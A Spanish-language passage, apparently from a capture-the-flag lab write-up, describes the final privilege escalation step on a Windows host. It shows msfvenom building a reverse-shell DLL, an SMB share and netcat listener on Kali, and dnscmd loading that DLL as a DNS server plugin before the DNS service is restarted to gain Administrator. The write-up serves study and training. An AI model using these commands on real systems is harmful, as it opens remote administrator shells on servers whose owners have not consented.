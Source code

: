 Es posible que debamos repetir el proceso de parar e iniciar el servicio de DNS varias veces hasta obtener la Reverse Shell.

Comprobamos que nos hemos autenticado como usuario Administrator y verificamos la flag de **root.txt**.

{% code title="On Kali" overflow="wrap" %}
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -o pwn.dll

smbserver.py smbFolder $(pwd) -smb2support

rlwrap nc -nlvp 443
```
{% endcode %}

{% code title="On Windows" %}
```powershell
dnscmd.exe /config /serverlevelplugindll \\10.10.14.13\smbFolder\pwn.dll

sc.exe stop dns

sc.exe start dns
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1098_vmware_ArK0noBJ9k.png" alt=""><figcaption></figcaption></figure>
